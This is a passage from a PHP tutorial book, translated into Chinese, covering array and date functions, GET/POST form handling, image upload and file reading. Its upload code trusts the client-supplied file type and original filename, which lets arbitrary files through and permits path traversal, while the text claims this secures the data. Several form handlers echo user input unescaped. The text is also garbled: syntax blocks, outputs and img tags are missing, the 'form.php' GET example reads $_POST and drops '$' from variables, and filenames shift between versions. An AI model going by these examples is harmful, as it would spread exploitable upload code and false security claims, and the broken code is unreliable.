此例中，`array_merge()` 将 `$tab1`、`$tab2` 和 `$tab3` 合并为单个数组 `$result`。合并后的数组将包含所有源数组的元素，唯一键将被保留，否则键将从零开始重新索引。


##### `array_key_exists()`
`array_key_exists()` 函数用于检查特定键是否存在于给定数组中。如果键存在则返回 `true`，否则返回 `false`。

**语法：**


参数：
- `key`：要在数组中搜索的键。
- `$tab`：要在其中搜索键的数组。

示例：
```php
<?php
$person = [
    "lastname" => "Dupont",
    "firstname" => "John",
    "age" => 30
];

if (array_key_exists("firstname", $person)) {
    echo "The key 'firstname' exists in the array person.";
} else {
    echo "The key 'firstname' does not exist in the array person.";
}
?>
```
此例中，`array_key_exists()` 检查键 "firstname" 是否存在于 `$person` 数组中。由于该键存在，条件为真，显示消息 "The key 'firstname' exists in the array person."。

##### `array_replace()`
`array_replace()` 函数用于用一个或多个其他数组的元素替换数组的元素。它用替换数组中对应的值替换第一个数组中现有的键值，并添加不存在的键。

**语法：**


参数：
- `$tab1`：要替换其元素的数组。
- `$tab2, $Other_arrays`：替换数组。可根据需要指定任意数量的数组。

该函数返回一个包含更新后元素的新数组。

示例：
```php
<?php
$array1 = ["a" => "red", "b" => "green", "c" => "blue"];
$array2 = ["b" => "yellow", "d" => "orange"];
$new_array = array_replace($array1, $array2);
echo "<pre>";
print_r($new_array);
echo "</pre>";
?>
```
此例中，`$array1` 数组被 `$array2` 数组中的值替换。`$array1` 和 `$array2` 都存在键 "b"，因此 `$new_array` 中键 "b" 的值将被 `$array2` 的值替换。键 "a"、"c" 和 "d" 仅存在于其中一个数组中，因此它们将被添加到 `$new_array` 中。


#### 日期和时间函数

PHP 中有许多内置函数便于日期和时间的操作。这些函数可用于格式化日期、对日期执行算术运算、计算两个日期之间的差值等。

以下是一些最常用的日期和时间处理函数：

##### `date(format, timestamp)`
`date(format, timestamp)` 函数返回一个表示当前日期和时间或由时间戳指定的日期和时间的格式化字符串。`format` 参数定义输出字符串的格式，而 `timestamp` 参数（可选）指定用作转换基础的 Unix 时间戳。如果未提供 `timestamp` 参数，函数将使用当前时间戳。

示例：
```php
<?php
// 以 "d-m-Y H:i:s" 格式获取当前日期
$currentDate = date("d-m-Y H:i:s");
echo $currentDate . "<br>";
// 以 "d/m/Y" 格式获取当前日期
$currentDate2 = date("d/m/Y");
echo $currentDate2 . "<br>";
?>
```
在这些示例中，`date()` 函数用于格式化当前日期。运行此代码将得到类似以下的结果：


##### `getdate()`
`getdate()` 函数返回一个包含当前日期信息的关联数组。

示例：
```php
<?php
$currentdate = getdate();
echo "<pre>";
print_r($currentdate);
echo "</pre>";
?>
```
此代码返回一个包含当前日期的年、月、日等元素的关联数组。


返回数组包含以下键：
- `"seconds"`：当前秒数（0 到 59）
- `"minutes"`：当前分钟数（0 到 59）
- `"hours"`：24 小时制的当前小时数（0 到 23）
- `"mday"`：当月的第几天（1 到 31）
- `"wday"`：一周中的第几天（0 表示周日，6 表示周六）
- `"mon"`：当前月份（1 到 12）
- `"year"`：完整格式的当前年份（例如 2024）
- `"yday"`：一年中的第几天（0 到 365）
- `"weekday"`：当前星期几的完整名称（例如 "Monday"）


*   `month`：当前月份的全称（例如 "February"）
*   `0`：表示当前日期的 Unix 时间戳

这些元素提供了当前日期和时间的精确细节。

*   PHP 的 `time()` 函数返回自 1970 年 1 月 1 日午夜 UTC（Unix 时间）以来经过的秒数。它不接受任何参数。

示例：

```php
$current_time = time();
echo "The time in seconds since the Unix epoch: $current_time";
```

运行此代码将返回自 01/01/1970 以来的当前时间（以秒为单位）：


此函数常用于测量持续时间、计算时间间隔或进行其他基于时间的操作。

*   PHP 中的 **`strtotime()` 函数** 用于将文本日期解析为 Unix 时间戳值，表示自 1970 年 1 月 1 日 00:00:00 UTC（Unix 时间）以来经过的秒数。以下是其用法的一些示例：

```php
$date_text = "2023-08-29";
$timestamp = strtotime($date_text);
echo "The timestamp for the date $date_text is: $timestamp";
```

此代码将产生类似以下的结果：


计算两个特定日期之间时间的示例：

您可以使用 `strtotime()` 函数获取这些日期的时间戳，然后减去相应的时间戳以获得以秒为单位的差值。然后您可以根据需要将此差值转换为天、小时、分钟等。

以下是计算 02/15/1996 和 08/29/2024 之间持续时间的示例：

```php
// 开始日期的时间戳 (02/15/1996 00:00:00)
$departure_date = strtotime("1996-02-15");
// 到达日期的时间戳 (29/08/2024 00:00:00)
$arrival_date = strtotime("2024-08-29");
// 计算以秒为单位的差值
$difference_seconds = $arrival_date - $departure_date;
// 显示以秒为单位的持续时间
echo "Duration in seconds between 02-15-1996 and 08-29-2024: $difference_seconds";
```

此代码将产生类似以下的结果：


#### 结论

重要的是要注意，PHP 提供了大量预定义函数来完成多种任务，从数学运算和字符串操作到数组操作以及日期/时间管理等。要在一本书中详尽涵盖所有这些函数是不可能的。

本章的目的是为您提供 PHP 内置不同函数类别的代表性示例，以便您了解它们的基本用法和操作。必须注意的是，目的不是让您死记硬背所有函数，而是让您熟悉它们的存在和实用性。

作为开发人员，培养在需要使用特定函数时搜索和查阅 PHP 官方文档或其他在线资源的能力至关重要。这是软件开发过程不可或缺的一部分，将使您能够自行探索 PHP 语言提供的特性和可能性。

### B 部分

### 高级数据管理与浏览器交互

在本部分中，我们将探讨数据操作和浏览器交互的高级方面。我们将深入研究高级技术，使您能够创建更动态、更具交互性的 Web 应用程序。

**第 7 章**：本章我们将介绍使用 GET 和 POST 方法处理来自浏览器的数据。我们将学习如何从表单检索数据，并在 PHP 脚本中使用这些数据，以在 Web 应用程序中创建交互功能。

**第 8 章：** 图像与文件：本章重点介绍 Web 应用程序中图像和文件等多媒体资源的管理。它探讨了在服务器端存储、加载和操作图像及文件的最佳实践。

**第 9 章：** 会话与 Cookie 管理：本章探讨 Web 应用程序中用户会话状态的管理机制。它详细介绍了使用 Cookie 存储客户端信息，以及服务器端会话管理技术。

### 第 7 章

### 浏览器数据处理 (GET, POST)

到目前为止，我们已经探讨了许多构成我们未来学习基础的基本概念。如果这是您第一次涉足服务端编程，起初感到有些迷茫是正常的。您也可能无法完全掌握变量、条件、循环、函数、数组等的用处。这是可以理解的，因为到目前为止，我们主要使用的是自己定义的值。换句话说，在示例中，我们用预定值初始化了变量。

然而，在后续课程中，我们将使用那些我们不预先自行定义值的变量。例如，我们将学习如何检索用户通过表单输入的信息，届时您将完全理解我们迄今所学内容的重要性。

本书的这一章重点介绍来自浏览器的数据处理，特别强调 GET 和 POST 方法。当我们与网站交互时，经常会传输信息，如表单参数或 URL 标识符。这些数据对于个性化用户体验、执行搜索或管理用户会话等至关重要。

本章将为您提供在 PHP 项目中有效操作浏览器数据所需的知识，为创建更动态、更具交互性的 Web 应用程序铺平道路。

#### 在 PHP 中传输和处理表单数据

要检索用户在表单中输入的数据，主要有两种方法：

第一种方法是创建两个单独的文件：一个包含表单的 HTML 文件，和一个负责处理该表单提交数据的 PHP 文件。

第二种方法是将 HTML 表单代码和 PHP 处理代码结合在一个 PHP 文件中。

最初，我们将专注于第一种配置，即使用两个单独的文件。第一个文件（例如命名为 `form.php`）将包含表单，而第二个文件（例如命名为 `processingform.php`）将负责处理该表单传输的数据。


在 `ebbokphp` 目录中，创建这两个文件：


##### 创建表单

让我们在 `form.php` 文件中创建一个表单：

```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<title>Form </title>
</head>
<body>
<form action="processingform.php" method="post">
 <fieldset>
 <legend>Personal information:</legend>
 <label for="lastname">Last Name:</label><br>
 <input type="text" id="lastname" name="lastname"><br>
 <label for="firstname">First Name:</label><br>
 <input type="text" id="firstname" name="firstname"><br>
 <label for="email">Email address:</label><br>
 <input type="email" id="email" name="email"><br>
 <label for="country">Country:</label><br>
 <select id="country" name="country">
 <option value="France">France</option>
 <option value="Morocco">Morocco</option>
 <option value="Spain">Spain</option>
 <option value="Canada">Canada</option>
 <option value="Belgium">Belgium</option>
 </select><br><br>
 <input type="submit" value="Send">
 </fieldset>
 </form>
</body>
</html>
```

该表单设计了一个标题为 "Personal information" 的 `fieldset`，并包含以下字段："Last name"、"First name"、"Email address" 和 "Country"。

**Input** 字段是用于输入用户数据的表单元素。`type` 属性定义字段类型，例如 "text" 用于 "Last name" 和 "First name" 等文本字段，"email" 用于电子邮件地址字段。`id` 属性用于关联相应的标签，而 `name` 属性对于在表单提交时识别字段数据至关重要。


`<select>` 和 `<option>` 元素用于创建下拉列表。`<select>` 标签创建一个下拉列表，而 `<option>` 标签定义列表中的每个选项。每个选项的 `value` 属性是在选择时发送给服务器的值。

`<input type="submit">` 按钮允许用户提交表单。`value` 属性定义按钮上显示的文本，在本例中为 "Submit"。

`<form>` 标签包裹表单的所有元素。`action` 属性指定数据处理脚本的 URL（在本例中为 "processingform.php"），而 `method` 属性定义发送数据所使用的 HTTP 方法（此处为 POST）。

要检索从 HTML 表单发送的数据，PHP 提供了两种方法：`GET` 和 `POST`，可通过超全局变量 `$_GET` 和 `$_POST` 访问。这些超全局变量用于检索表单字段的值，稍后我们将看到具体用法。


##### 在 PHP 中使用 POST 方法检索数据

在 `form.php` 文件中创建表单后，检索传输数据的过程如下：

当用户点击“发送”按钮提交表单时，数据被发送到服务器。

服务器接收数据并将其传输到表单 `action` 属性中指定的处理文件（在本例中为 "processingform.php"）。

在 `processingform.php` 文件中，我们根据表单中使用的方法（在本例中为 POST），通过 `$_GET` 或 `$_POST` 超全局变量检索传输的数据。

然后，我们根据应用程序的需求处理这些数据，例如验证、操作、存储到数据库等。

下面是文件 `processingform.php` 的代码示例，假设表单使用 POST 方法发送数据：

```php
<?php

 // 检索表单数据

 $lastname = $_POST["lastname"];

 $firstname = $_POST["firstname"];

 $email = $_POST["email"];

 $country = $_POST["country"];

 // 数据处理示例（显示）

 echo "Last Name : " . $lastname . "<br>";

 echo "First Name : " . $firstname . "<br>";

 echo "Email : " . $email . "<br>";

 echo "Country : " . $country . "<br>";

?>
```

在该代码中，`$lastname`、`$firstname`、`$email` 和 `$country` 等变量用于存储在表单字段中输入的值。每个变量都与 `$_POST` 超全局变量中的特定键相关联，该键对应表单字段的 `name` 属性。

通过与表单字段关联的键从 `$_POST` 超全局变量中检索数据。例如，`$_POST["lastname"]` 检索 `name` 属性等于 "lastname" 的字段的值。

检索数据后，根据应用程序的需求对其进行处理或显示。在本例中，数据仅使用 `echo` 函数显示在屏幕上。

每个表单字段都会连同其对应的标签一起显示，以便于阅读和理解用户输入的数据。

简而言之，这段 PHP 代码检索通过 HTML 表单提交的数据，将其存储在适当的变量中，并在屏幕上显示，用于演示或进一步处理。

要测试此代码，只需在 `form.php` 文件中填写表单，然后点击“发送”按钮进行验证。您将获得类似以下的结果：


> **警告**
>
> 如果您尝试直接访问 `processingform.php` 文件，将会得到类似以下的错误：
>
> 

事实上，当您尝试直接访问文件 `processingform.php`，而不通过发送 POST 数据的表单时，就会出现此类错误。这是因为 `processingform.php` 中的 PHP 代码尝试从 `$_POST` 超全局变量访问表单字段值，但由于直接访问文件时这些值未通过 POST 发送，PHP 无法在 `$_POST` 中找到它们。

换句话说，当您直接访问 `processingform.php` 时，没有通过 POST 发送的数据，因此 "last name"、"first name"、"email" 和 "country" 等索引不存在于 `$_POST` 超全局变量中。结果，当 PHP 尝试访问这些不存在的索引时，会生成错误。

为了避免这些错误，重要的是在尝试检索数据之前添加测试，以检查数据是否在 `$_POST` 中可用。让我们按如下方式修改文件 `processingform.php` 中的代码：

```php
<?php

 // 检查是否通过 POST 发送了数据

 if ($_SERVER["REQUEST_METHOD"] == "POST") {

 // 检索表单数据

 $name = $_POST["lastname"];

 $firstname = $_POST["firstname"];

 $email = $_POST["email"];

 $country = $_POST["country"];

 // 数据处理示例（显示）

 echo "Name : " . $name . "<br>";

 echo "First name : " . $firstname . "<br>";

 echo "Email : " . $email . "<br>";

 echo "Country : " . $country . "<br>";

 }else{

 // 如果请求方法不是 POST，则显示错误消息

 echo "Error: Access not authorized.";

 }

?>
```

通过这种方法，您首先使用 `$_SERVER["REQUEST_METHOD"] == "POST"` 检查是否通过 POST 发送了数据。如果请求方法不是 POST，则可以显示适当的错误消息以通知用户。

换句话说，如果您尝试直接访问 `processingform.php` 文件，将会得到 `else` 块中显示的消息；否则，如果您通过 `form.php` 文件中的表单访问，将会显示输入的数据。

例如：


我们可以通过执行预检查来进一步优化代码，以确保所有预期数据都在 `$_POST` 变量中可用。例如，我们可以检查所有必填字段是否已填写，以及 email 字段是否包含符合电子邮件地址标准的有效电子邮件地址（特别是通过检查 "@" 符号的存在）。这将提高我们处理表单输入数据的健壮性和可靠性。以下是更新后的代码：

```php
<?php

 // 检查是否通过 POST 发送了数据

 if ($_SERVER["REQUEST_METHOD"] == "POST") {

 // 检查预期数据是否在 $_POST 中可用

 if (empty($_POST["lastname"])) {

 echo "Please enter your last name!";

 } elseif (empty($_POST["firstname"])) {

 echo "Please enter your first name!";

 } elseif (empty($_POST["email"]) || !filter_var($_POST["email"], FILTER_VALIDATE_EMAIL)) {

 echo "Please enter a valid email!";

 } elseif (empty($_POST["country"])) {

 echo "Please select your country!";

 } else {

 // 检索表单数据

 $lastname = $_POST["lastname"];

 $firstname = $_POST["firstname"];

 $email = $_POST["email"];

 $country = $_POST["country"];

 // 数据处理示例（显示）

 echo "Last Name : " . $lastname . "<br>";

 echo "First Name : " . $firstname . "<br>";

 echo "Email : " . $email . "<br>";

 echo "Country : " . $country . "<br>";

 }

 } else {

// 如果请求方法不是 POST，则显示错误消息

 echo "Error: Access not authorized";

 }

?>
```

这段 PHP 代码首先通过检查 `$_SERVER["REQUEST_METHOD"]` 的值来确认是否通过 POST 方法发送了数据。然后检查预期数据是否在 `$_POST` 中可用。如果不满足以下任一条件，将显示相应的错误消息：

*   如果 "last name" 字段为空，则显示消息 "Please enter your last name!"。
*   如果 "first name" 字段为空，则显示消息 "Please enter your first name!"。
*   如果 "email" 字段为空或不包含有效的电子邮件地址（使用 `FILTER_VALIDATE_EMAIL` 检查），则显示消息 "Please enter a valid email!"。
*   如果 "country" 字段为空，则显示消息 "Please choose your country!"。


如果满足所有条件，即所有必填字段均已填写且电子邮件地址有效，则从变量 `$lastname`、`$firstname`、`$email` 和 `$country` 中获取表单数据。最后，执行一个数据处理示例，出于演示目的显示这些变量的值。

如果请求方法不是 POST，即数据未通过表单提交，则显示“Error: Access not authorized”（错误：未授权访问）错误消息。

请注意，PHP 中的 `filter_var` 函数用于使用特定过滤器过滤变量。它接受两个参数：要过滤的变量和要应用的过滤器。

在此示例中，`FILTER_VALIDATE_EMAIL` 用作过滤器，用于检查变量是否包含有效的电子邮件地址。此过滤器旨在根据标准格式规范验证电子邮件地址。如果变量不包含有效的电子邮件地址，`filter_var` 函数返回 false，否则返回该电子邮件地址。

总之，`filter_var($_POST["email"], FILTER_VALIDATE_EMAIL)` 检查变量 `$_POST["email"]` 是否根据标准格式标准包含有效的电子邮件地址。如果是，则返回该电子邮件地址，否则返回 false。

#### 在 PHP 中使用 GET 方法检索数据

GET 方法常用于将表单数据发送到 PHP 脚本，方法是将数据附加到 URL 后面，特别是在数据不敏感且不包含机密信息时。此数据在浏览器 URL 中可见，可在服务器端检索和处理。

要在 PHP 中检索通过 GET 方法发送的数据，我们使用 `$_GET` 超全局变量。此超全局变量包含一个关联数组，存放 URL 中传递的参数。参数使用 URL 中定义的名称进行检索。

我们将探讨如何使用 `$_GET` 检索 URL 参数值，以及如何在 PHP 脚本中使用它们执行各种操作。

为此，我们回到前面的示例。在 `form.php` 文件中，将 method 属性的 "post" 方法替换为 "get"。在 `processingform.php` 中，将所有 `$_POST` 出现替换为 `$_GET`。

##### form.php

```php
<?php

 // 检查是否已通过 POST 发送数据

 if ($_SERVER["REQUEST_METHOD"] == "GET") {

 // 检索表单数据

 $name = $_POST["lastname"];

 firstname = $_POST["firstname"];

 $email = $_POST["email"];

 country = $_POST["country"];

 // 数据处理示例（显示）

 echo "Name : " . $name . "<br>";

 echo "First name : " . $firstname . "<br>";

 echo "Email : " . $email . "<br>";

 echo "Country : " . $country . "<br>";

 }else{

 // 如果请求方法不是 POST，则显示错误消息

 echo "Error: Access not authorized.";

 }

?>
```

##### Processingform.php

```php
<?php

 // 检查是否已通过 POST 发送数据

 if ($_SERVER["REQUEST_METHOD"] == "GET") {

 // 检查 $_GET 中是否有预期数据

 if (empty($_GET["lastname"])) {

 echo "Please enter your last name!";

 } elseif (empty($_GET["firstname"])) {

 echo "Please enter your first name!";

 } elseif (empty($_GET["email"]) || !filter_var($_GET["email"], FILTER_VALIDATE_EMAIL)) {

 echo "Please enter a valid email!";

 } elseif (empty($_GET["country"])) {

 echo "Please select your country!";

 } else {

 // 检索表单数据

 $lastname = $_GET["lastname"];

 $firstname = $_GET["firstname"];

 $email = $_GET["email"];

 $country = $_GET["country"];

 // 数据处理示例（显示）

 echo "Last Name : " . $lastname . "<br>";

 echo "First Name : " . $firstname . "<br>";

 echo "Email : " . $email . "<br>";

 echo "Country : " . $country . "<br>";

 }

 } else {

 // 如果请求方法不是 POST，则显示错误消息

 echo "Error: Access not authorized";

 }

?>
```

当你填写表单并点击“Send”（发送）按钮提交时，将获得类似如下的结果：


请注意，你的表单内容已通过浏览器的 URL 地址传输。换句话说，GET 方法将数据作为查询字符串发送在 URL 中，使其易于查看和共享。

然而，重要的是要注意，不建议使用 GET 方法发送敏感数据（如密码），因为该数据在 URL 中可见，可能被第三方拦截。在这种情况下，首选 POST 方法，因为它在 HTTP 请求体中发送数据，可见性较低。

此外，与 POST 方法相比，GET 方法有几个局限性：

**数据大小限制**：通过 GET 方法传输的数据大小受限，因为它包含在 URL 中。这对于大量或敏感数据可能是个问题。

**数据安全性**：由于数据在 URL 中可见，第三方可以轻松拦截和读取。这可能会危及密码或个人信息等敏感数据的安全性。

**特殊字符限制**：URL 中的某些特殊字符必须进行编码，如果处理不当，可能导致错误或数据丢失。

**浏览器缓存**：通过 GET 方法传输的数据可能被浏览器缓存，如果用户共享包含敏感数据的 URL，可能导致机密性问题。

总之，虽然 GET 方法简单易用，适合少量非敏感数据，但在安全性、数据大小和特殊字符处理方面存在显著局限性。对于敏感或大量数据，建议使用 POST 方法。

### 第 8 章：图像和文件

图像和文件操作是现代 Web 开发的重要组成部分。在本章中，我们将重点关注两个主要方面：发送和显示图像及文件，以及在服务器上管理这些文件。

首先，我们将探讨从 HTML 表单向 PHP 服务器发送图像和文件的过程。我们将了解如何在服务器端处理这些数据，检查文件类型和大小，然后将其保存在服务器上。接下来，我们将学习如何在网页中显示这些图像，使用适当的 HTML 标签。

随后，我们将研究服务器端的文件管理。我们将介绍创建、读取、写入和删除文件等常见操作。我们将了解如何操作目录、列出文件以及其他文件管理操作。

本章将带你深入了解 PHP 中的图像和文件操作，为你提供在 Web 应用程序中有效管理多媒体资源和文件所需的知识和技能。

#### 发送和显示图像或文件

使用表单发送和显示图像或文件的过程可分为几个阶段：

*   **创建上传表单**：首先，你需要创建一个 HTML 表单，允许用户从其设备选择并上传文件到服务器。你可以使用类型为 "file" 的 `<input>` 标签来创建用于选择文件的表单字段。
*   **表单处理**：用户提交表单后，文件数据被发送到服务器。你随后需要创建 PHP 代码来处理这些数据。此代码可以集成在同一个表单脚本中，也可以位于独立的 PHP 脚本中。该代码必须检查文件是否已正确发送、是否符合你定义的文件大小和类型限制，然后将其保存在服务器上。
*   **在网页上显示图像**：图像发送并保存在服务器上后，你可以使用 HTML 的 `` 标签在网页上显示它。你必须在 `` 标签的 "src" 属性中指定图像的路径。

##### 创建发送表单

以下是说明该过程的代码示例：

在 `index.php` 文件中，创建以下表单：

```html
<!DOCTYPE html>
<html lang="en">

<head>

 <meta charset="UTF-8">

 <title>Image submission form</title>

</head>

<body>
```


<form action="" method="post" enctype="multipart/form-data">

<label for="file">Select an image to send:</label>

<input type="file" name="file" id="file" capture="Select File">

<input type="submit" value="Send">

</form>

</body>

</html>

此 HTML 表单用于允许用户将文件（特别是图像）发送到 Web 服务器。

`<form action="" method="post" enctype="multipart/form-data">`：此 `<form>` 标签定义表单的开始。`action` 属性指定数据处理脚本的 URL（此处为空，表示提交到同一页面），`method` 属性指定发送数据所用的 HTTP 方法，此处为 "post"。`enctype` 属性定义表单的内容类型，发送文件时为 "multipart/form-data"。

以下是表单概览：


简而言之，此表单允许用户选择要发送的文件，然后提交表单，以便通过 POST 方法并以 "multipart/form-data" 内容类型将文件传输到服务器。

#### 表单处理

下一步是在项目结构中创建一个名为 "uploads" 的目录，用于存储上传的图像。然后，在 `index.php` 文件中，紧接在表单之前，我们集成 PHP 代码来管理通过表单传输的数据。

```php

// Check that the file has been sent correctly

if ($_SERVER["REQUEST_METHOD"] == "POST" && isset($_FILES["file"])){

$file = $_FILES["file"];

// Check if the file is a JPEG or PNG image

$allowed_types = ["image/jpeg", "image/png"];

if (in_array($file["type"], $allowed_types)) {

// Move file to destination directory on server

$destination = "uploads/".$file["name"];

move_uploaded_file($file["tmp_name"], $destination);

echo "The image has been uploaded successfully.";

} else {

echo "Error: Please select an image in JPEG or PNG format.";

}

}

?>
```

此 PHP 代码用于检查和处理通过 HTML 表单发送的文件，特别是在服务器上上传和保存图像。

*   第一行代码检查请求方法是否为 `POST`，以及文件是否已以键 "file" 发送到 `$_FILES` 超全局变量。"file" 是表单 "name" 属性的值。
*   接下来，创建一个 `$file` 变量并用下载的文件数据进行初始化，这些数据从 `$_FILES` 超全局变量中提取。
*   在名为 `$allowed_types` 的数组中定义了一个授权图像类型列表，本例中为 "image/jpeg" 和 "image/png"。
*   使用 `in_array()` 函数检查下载文件的类型是否为 `$allowed_types` 数组中定义的允许类型之一。
*   如果是，则使用 `move_uploaded_file()` 函数将文件从临时文件夹移动到 `$destination` 变量中指定的目标目录。临时文件由 `$_FILES["file"]["tmp_name"]` 指定，文件名在 `$file["name"]` 中保持不变。
*   如果文件类型未获授权，则显示一条错误消息，提示用户选择 JPEG 或 PNG 格式的图像。

此代码确保仅接受 JPEG 或 PNG 文件并将其上传到服务器，从而保证数据的安全性和完整性。

要测试您的代码，请遵循以下简单步骤：运行 `index.php` 文件，从您的设备中选择一张图像，然后提交表单。如果您选择的图像符合指定的允许类型，它将保存在您之前创建的 "uploads" 目录中。


但请注意，存储文件的目录必须可写且可读。根据您的操作系统，您可能需要授予该目录读取和写入访问权限。

#### 在网页中显示图像

第三步是显示通过表单传输的图像。为此，我们创建一个名为 `display_image.php` 的文件：

```html
<!DOCTYPE html>

<html lang="en">

<head>

<meta charset="UTF-8">

<title>Image display</title>

</head>

<body>

<h1>Image sent:</h1>

<!-- Display uploaded image -->

<?php

$image_path = "uploads/php.png"; // Path to image saved on server

echo '';

?>

</body>

</html>
```

此带有 PHP 标签的 HTML 代码用于在网页上显示图像。

*   `$image_path = "uploads/php.png";`：定义服务器上保存的图像路径。
*   `echo '';`：使用 `` 标签显示图像，其中 `src` 属性指定图像路径，`alt` 提供图像的替代文本（对无障碍访问很有用），`width` 定义其宽度（以像素为单位）。


#### 文件管理

文件管理是 PHP Web 开发的重要组成部分，因为它允许您操作服务器上的文件并与之交互。本节将介绍读取、写入、创建和删除文件等基本操作。

##### 文件读取

###### 使用 `file_get_contents()`

`file_get_contents()` 函数将文件的完整内容读入字符串。此方法适用于内容可存储在内存中的小文件。

例如：

首先，在 "ebookphp" 项目的根目录下创建一个名为 "filetext" 的目录。在此目录中，保存一个名为 "poem1.txt" 的文本文件，其中包含莎士比亚最著名的诗作之一的片段。

以下是 "poem1.txt" 文件的内容：


在 `index.php` 文件中，我们放置将读取 poem1.txt 文件内容的代码：

```php

// Read the contents of a file in a string

$content = file_get_contents('filetext/poem1.txt');

// Display the contents of the file

echo $content;

?>
```

此 PHP 代码读取位于 "filetext" 目录中名为 "poem1.txt" 的文本文件的内容（这是莎士比亚最著名的诗作之一）。`file_get_contents()` 函数用于读取文件内容并将其存储在名为 `$content` 的变量中。然后使用 `echo $content;` 命令在屏幕上显示文件内容。

运行 `index.php` 将产生以下结果：


结果显示，显示 "poeme.txt" 文件内容时未保留换行符。要在使用 `file_get_contents()` 读取文件时保留换行符，可以使用 PHP 预定义的 `nl2br()` 函数将换行符转换为 HTML `<br>` 标签。这使得换行符能在 HTML 上下文中正确显示。

以下是如何修改示例以包含 `nl2br()` 函数：

```php

// Read the contents of a file in a string

$content = file_get_contents('filetext/poem1.txt');

// Convert line breaks into HTML tags <br>

$content_with_br = nl2br($content);

// Display file contents with line breaks preserved

echo $content_with_br;

?>
```

通过此修改，poeme.txt 文件中的换行符将在您的 HTML 页面中正确显示。


简而言之，`file_get_contents()` 函数用于在 PHP 中将文件内容作为字符串读取。它便于从文本文件、CSV 文件甚至网页中提取文本内容。此函数使用简单，以字符串形式返回文件的完整内容，便于在 PHP 代码中操作。

###### 使用 `fopen()`、`fread()` 和 `fclose()`

为了更受控、更高效地读取大文件，可以使用 `fopen()`、`fread()` 和 `fclose()` 函数。`fopen()` 打开文件，`fread()` 从文件中读取指定字节数，`fclose()` 在读取后关闭文件。

以下是如何使用它们来读取文件内容：


### PHP 文件操作

#### fopen() 函数

**`fopen()`** 函数用于打开文件或 URL，并返回文件指针。它接受两个参数：要打开的文件名和打开模式（读、写等）。语法如下：


打开模式指定文件如何被打开。以下是一些常用模式：

- **`"r"`**：以只读模式打开文件。文件指针指向文件开头。
- **`"w"`**：以只写模式打开文件。清空现有内容，若文件不存在则创建新文件。文件指针指向文件开头。
- **`"a"`**：以只写模式打开文件。文件指针指向文件末尾。若文件不存在则尝试创建。
- **`"r+"`**：以读写模式打开文件。文件指针指向文件开头。

`fopen()` 函数返回的文件指针供其他文件操作函数（如 `fread()`、`fwrite()` 等）使用。若 `fopen()` 失败，则返回 `FALSE`。

##### 示例

```php
<?php
$handle = fopen("filetext/poem1.txt", "r");
?>
```

---

#### 读取文件内容

使用 `fopen()` 打开文件后，下一步是读取其内容。PHP 提供了多个函数来完成此任务，包括 `fread()`、`fgets()` 和 `fgetc()`。每个函数提供不同的读取方式。

##### `fread()` 函数

**`fread()` 函数**用于从 `fopen()` 打开的文件中读取指定字节数。它接受两个参数：`fopen()` 返回的文件指针和要读取的字节数。若需读取整个文件，可使用 `filesize()` 函数获取文件总大小，只需提供文件名即可。

```php
<?php
$handle = fopen("filetext/poem1.txt", "r");
$content = fread($handle, filesize("filetext/poem1.txt"));
echo $content;
?>
```

执行此代码将打开 `poeme.txt` 文件并以只读方式访问其全部内容。


若需读取特定字节数，只需将该字节数作为第二个参数传给 `fread()`。例如，以下代码仅读取前 50 字节：

```php
<?php
$handle = fopen("filetext/poem1.txt", "r");
$content = fread($handle, 50);
echo $content;
?>
```

结果：


##### `fgets()` 函数

**`fgets()` 函数**用于从 `fopen()` 打开的文件中读取一整行。它接受 `fopen()` 返回的文件指针作为参数。该函数读取直到行尾字符（通常是换行符或回车符），并返回包含行尾字符的字符串。若到达文件末尾，则返回 `false`。

```php
<?php
$handle = fopen("filetext/poem1.txt", "r");
$content = fgets($handle);
echo $content;
?>
```

结果：


##### `fgetc()` 函数

**`fgetc()` 函数**用于从 `fopen()` 打开的文件中逐字符读取。它接受 `fopen()` 返回的文件指针作为参数。每次调用 `fgetc()` 会将文件指针前移一个字符，并返回读取到的字符字符串。若到达文件末尾，则返回 `false`。

以下示例中，`fgetc()` 函数将执行六次，显示文件的前六个字符：

```php
<?php
$handle = fopen("filetext/poem1.txt", "r");
echo fgetc($handle);
echo fgetc($handle);
echo fgetc($handle);
echo fgetc($handle);
echo fgetc($handle);
echo fgetc($handle);
?>
```

结果：


要使用 `fgetc()` 读取整个文件内容，可在 `while` 循环中调用它，直到返回 `false` 表示文件结束。

```php
<?php
$file = fopen("filetext/poem1.txt", "r");
if ($file) {
    // 逐字符读取循环
    while (($char = fgetc($file)) !== false) {
        echo $char;
    }
}
?>
```

这段 PHP 代码使用 `fopen()` 以读模式打开 `poeme.txt` 文件。若文件打开成功（即 `$file` 不等于 `false`），则启动 `while` 循环。每次迭代使用 `fgetc()` 读取一个字符，循环条件检查返回值是否不为 `false`（即仍有字符可读）。若是，则使用 `echo` 输出该字符。循环重复直到文件末尾，此时 `fgetc()` 返回 `false`，循环终止。

---

#### `fclose()` 函数

**`fclose()` 函数**用于关闭之前用 `fopen()` 打开的文件。它接受 `fopen()` 返回的文件指针作为参数。

##### 使用示例

```php
<?php
$handle = fopen("filetext/poem1.txt", "r");
if ($handle) {
    $content = fread($handle, filesize("filetext/poem1.txt"));
    echo $content;
    fclose($handle); // 关闭文件
} else {
    echo "Unable to open file";
}
?>
```

此代码使用 `fopen()` 以读模式打开 `poeme.txt` 文件。若打开成功，则使用 `filesize()` 获取文件大小，用 `fread()` 将内容读入变量，并用 `echo` 显示。读取完成后，使用 `fclose()` 关闭文件并释放资源。若文件无法打开，则显示错误信息。

---

#### 文件创建

在 PHP 中创建文件是常见操作，可使用内置函数轻松完成。以下是创建新文件的方法：

##### 使用 `fopen()` 函数

创建文件的第一步是使用 `fopen()` 函数。该函数打开文件，若文件不存在则创建。示例如下：

```php
<?php
// 以写模式打开文件（若不存在则创建新文件）
$handle = fopen("filetext/new_file.txt", "w");
// 检查文件是否打开成功
if ($handle !== false) {
    echo "The file has been created successfully!";
    fclose($handle); // 使用后关闭文件
} else {
    echo "Impossible to create the file";
}
?>
```

此例中，我们使用 `fopen()` 以写模式（`"w"`）打开名为 `nouveau_fichier.txt` 的文件。若文件不存在，`fopen()` 将创建它。打开成功则显示成功消息，否则显示错误消息。

`fopen()` 函数还可用于以其他模式打开文件，如只读（`"r"`）、读写（`"r+"`）、追加（`"a"`）等。

此步骤是在向文件写入数据前创建文件的关键步骤。

若代码无错误执行，将显示消息 "The file has been created successfully"，并在 `filetext` 目录下创建一个名为 `nouveau_fichier.txt` 的新空文件。


---

#### 写入文件

